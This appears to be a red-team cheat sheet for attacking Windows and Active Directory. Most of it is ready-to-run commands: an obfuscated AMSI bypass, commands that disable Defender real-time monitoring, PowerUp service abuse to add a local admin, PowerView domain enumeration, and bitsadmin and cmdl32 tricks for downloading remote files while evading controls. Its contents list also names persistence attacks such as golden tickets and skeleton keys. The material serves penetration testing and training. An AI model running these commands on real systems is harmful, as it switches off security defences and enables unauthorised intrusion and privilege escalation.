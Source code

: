 # RedTeam-CheatSheet From a Windows Host

---

- [CheckLists](#checklists)
  - [Mandatory](#disable-logging-and-enable-bypasses)
  - [Local Privilege Escalation](#privilege-escalation)
  - [Domain Enumeration](#domain-enumeration)
- [Commands](#commands)
  - [Bypass PowerShell Logging](#bypass-logging)
  - [Local Privilege Escalation](#local-privilege-escalation)
  - [Domain-Enumeration](#domain-enumeration-commands)
  - [BloodHound](#bloodHound)
  - [Lateral Movement](#bloodHound)
  - [Domain Persistence](#bloodHound)
    - [DCsync Attack]
    - [Diamond Ticket]
    - [Golden Ticket]
    - [Silver Ticket]
    - [Skeleton Key]
    - [Custom SSP]
  - [Domain Privilege Escalation](#bloodHound)
    - [Kerberoasting]
    - [Constrained Delegation]
    - [Unconstrained Delegation]
  - [Enterprise Admin Escalation and Forest Trust Abuse](#bloodHound)
  - [Lateral Movement](#bloodHound)
- [Living off the land](#living-off-the-land)
  - [Active Directory Built in Commands](#ad-enumeration)

---

# Checklists  
## Disable Logging and Enable Bypasses
> 1. [ ] Bypass logging - Invisishell 
> 2. [ ] Bypass PowerShell AMSI on every new user
> 3. [ ] Bypass Defender (with Admin privs)
> 4. [ ] .NET AMSI bypass (when required)

## Privilege Escalation
> 1. [ ] PowerUp.ps1

## Domain Enumeration
> 1. [ ] Domains, Forests, Trusts, SIDS
> 2. [ ] Users, fake accounts (password or logon count checks)
> 3. [ ] Domain computers
> 4. [ ] Kerberos Policy Information
> 5. [ ] GPO && OU
> 6. [ ] ACL's 
> 7. [ ] Blood-hound
> 8. [ ] SPN

--- 
# Commands  
## Bypass Logging
### Bypass Execution Policy
`powershell -ep bypass`

### Bypass Enhanced Logging
`RunWithRegistryNonAdmin.bat`

### Bypass AMSI 
https://amsi.fail/
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

### Bypass Defender
```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

## Local Privilege Escalation
```
. .\PowerUp.sp1
Invoke-AllChecks
```

### Create local admin user.
`Invoke-ServiceAbuse -Name 'ServiceName' -User domain\username -Password Password123`

### Run a custom command (Disable Defender)
`Invoke-ServiceAbuse -Name 'ServiceName' -Command "Set-MpPreference -DisableRealtimeMonitoring $true"`

## Domain Enumeration Commands 
### Powerview
`. .\PowerView.ps1`

### Get Domain Controller Information
` Get-NetDomainController`
` Get-NetDomainController -Domain domain.local`

### Get User Information
#### Check for decoy accounts (logon or bad password is 0).
`Get-UserProperty -Properties pwdlastset,logoncount,badpwdcount`


--- 
## Living off the Land
https://lolbas-project.github.io/#  
### Download Remote File Bypass Examples
#### Bitsadmin
`bitsadmin /transfer "import" https://<URL> C:\Users\<user>\output.txt`
#### cmdl32
1. Create a file '_settings.txt_'
```
[Connection Manager]
CMSFile=settings.txt >> settings.txt
ServiceName=WindowsUpdate >> settings.txt
TunnelFile=settings.txt >> settings.txt
[Settings] >> settings.txt
UpdateUrl=<URL of Remote File>
```
2. Run the following commands to download remote file

```
icacls %cd /deny %username%:(OI)(CI)(DE,DC)
set tmp=%cd%
cmdl32 /vpn /lan %cd%\settings.txt
icacls %cd% /remove:d %username%
```
3. Remove icacls
`icacls %cd% /remove:d %username%`

## AD Enumeration
### Domain Controllers
```
# Password Policies
Get-ADDefaultDomainPasswordPolicy
# List DC's
Get-ADDomainController -filter * | select Name, IPv4Address
```
### Organizational Units and Device Searches
```
# Organizational Units (OU's)
Get-ADOrganizationalUnit -Filter 'Name -like "*"' | Format-Table Name, DistinguishableName -A

# Get Computers within the OU's
Get-ADComputer -SearchBase "<OU-String>" -Filter * | Select-Object -ExpandProperty Name
```
### File Shares 
```
# Store devices in an OU into $FileServAD
$FileServAD = Get-ADComputer -SearchBase "OU=Servers,DC=corp,dc=ad" -Filter * | Select-Object -ExpandProperty Name

# Get SMB Shares on all the devices
Invoke-Command -ComputerName $FileServAD -ScriptBlock {Get-SmbShare -Special $false}
```

---
## Local
### Host Information
```
# System Info
sysinfo

#Networking
ipconfig /all
hostname
```

### Users and Groups
```
net users
net user <username>
net localgroups
net localgroup Administrators
```
